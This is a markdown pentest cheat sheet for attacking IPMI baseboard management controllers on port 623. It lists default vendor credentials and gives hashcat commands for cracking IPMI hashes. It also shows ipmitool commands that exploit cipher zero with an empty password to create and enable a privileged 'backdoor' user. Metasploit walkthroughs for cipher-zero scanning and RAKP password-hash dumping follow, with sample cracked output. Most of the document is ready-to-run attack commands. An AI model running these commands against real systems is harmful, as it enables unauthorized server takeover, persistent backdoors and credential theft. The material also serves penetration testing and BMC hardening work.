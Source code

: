 # 623 - IPMI

### Crack IPMI hash with hashcat

```
hashcat -a 3 -m 7300 -i --increment-min=8 --increment-max=8 ipmi.txt -1 ?d?u ?1?1?1?1?1?1?1?1 --username
```

### Default usernames and passwords

| **Product Name**                                    | **Default Username** | **Default Password**                     |
| --------------------------------------------------- | -------------------- | ---------------------------------------- |
| **HP Integrated Lights Out (iLO)**                  | Administrator        | \<factory randomized 8-character string> |
| **Dell Remote Access Card (iDRAC, DRAC)**           | root                 | calvin                                   |
| **IBM Integrated Management Module (IMM)**          | USERID               | PASSW0RD (with a zero)                   |
| **Fujitsu Integrated Remote Management Controller** | admin                | admin                                    |
| **Supermicro IPMI (2.0)**                           | ADMIN                | ADMIN                                    |
| **Oracle/Sun Integrated Lights Out Manager (ILOM)** | root                 | changeme                                 |
| **ASUS iKVM BMC**                                   | admin                | admin                                    |

### Tools

#### ipmitool

```
ipmitool -I lanplus -C 0 -H 172.16.24.246 -U root -P "" user list
ipmitool -I lanplus -C 0 -H 172.16.24.246 -U root -P "" chassis status
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" lan print
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" user set name 4 backdoor
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" user set password 4 Password123
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" user priv 2 4
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" channel setaccess 1 4 link=on
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" user enable 4
ipmitool -I lanplus -C 0 -H 172.16.28.249 -U root -P "" channel getaccess 1 4
```

#### ipmi\_cipher\_zerp (metasploit)

Dan Farmer identified a serious failing of the IPMI 2.0 specification, namely that cipher type 0, an indicator that the client wants to use clear-text authentication, actually allows access with any password. Cipher 0 issues were identified in HP, Dell, and Supermicro BMCs, with the issue likely encompassing all IPMI 2.0 implementations. It is easy to identify systems that have cipher 0 enabled using the ipmi\_cipher\_zero module in the Metasploit Framework.

```
msf> use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf auxiliary(ipmi_cipher_zero) > set RHOSTS 10.0.0.0/24
msf auxiliary(ipmi_cipher_zero) > run

[*] Sending IPMI requests to 10.0.0.0->10.0.0.255 (256 hosts)
[+] 10.0.0.99:623 VULNERABLE: Accepted a session open request for cipher zero
[+] 10.0.0.132:623 VULNERABLE: Accepted a session open request for cipher zero
[+] 10.0.0.141:623 VULNERABLE: Accepted a session open request for cipher zero
[+] 10.0.0.153:623 VULNERABLE: Accepted a session open request for cipher zero
```

#### IPMI 2.0 RAKP authentication remote password hash retrieval

More recently, Dan Farmer identified an even bigger issue with the IPMI 2.0 specification. In short, the authentication process for IPMI 2.0 mandates that the server send a salted SHA1 or MD5 hash of the requested user's password to the client, prior to the client authenticating. You heard that right - the BMC will tell you the password hash for any valid user account you request. This password hash can broken using an offline bruteforce or dictionary attack. Since this issue is a key part of the IPMI specification, there is no easy path to fix the problem, short of isolating all BMCs into a separate network. The ipmi\_dumphashes module in the Metasploit Framework can make short work of most BMCs.

```
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
msf auxiliary(ipmi_dumphashes) > set RHOSTS 10.0.0.0/24
msf auxiliary(ipmi_dumphashes) > set THREADS 256

msf auxiliary(ipmi_dumphashes) > run
 
[+] 10.0.0.59 root:266ead5921000000....000000000000000000000000000000001404726f6f74:eaf2bd6a5 3ee18e3b2dfa36cc368ef3a4af18e8b
[+] 10.0.0.59 Hash for user 'root' matches password 'calvin'
[+] 10.0.0.59 :408ee18714000000d9cc....000000000000000000000000000000001400:93503c1b7af26abee 34904f54f26e64d580c050e
[+] 10.0.0.59 Hash for user '' matches password 'admin'
```

In the example above, the module was able to identify two valid user accounts (root and blank), retrieve the hmac-sha1 password hashes for these accounts, and automatically crack them using an internal wordlist. If a database is connected, Metasploit will automatically store the hashed and clear-text version of these credentials for future use. If a user's password is not found in the local dictionary of common passwords, an external password cracking program can be employed to quickly brute force possible options. The example below demonstrates how to write out John the Ripper and Hashcat compatible files.

```
msf auxiliary(ipmi_dumphashes) > set RHOSTS 10.0.1.0/24
msf auxiliary(ipmi_dumphashes) > set THREADS 256

msf auxiliary(ipmi_dumphashes) > set OUTPUT_JOHN_FILE out.john

msf auxiliary(ipmi_dumphashes) > set OUTPUT_HASHCAT_FILE out.hashcat

msf auxiliary(ipmi_dumphashes) > run

 

[+] 10.0.1.100 root:ee33c2e02700000....000000000000000000000000000000001404726f6f74:8c576f6532 356cc342591204f41cc4eab7da6e8a
```

### Dump hashes

```
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts [TARGETS] 
run
```
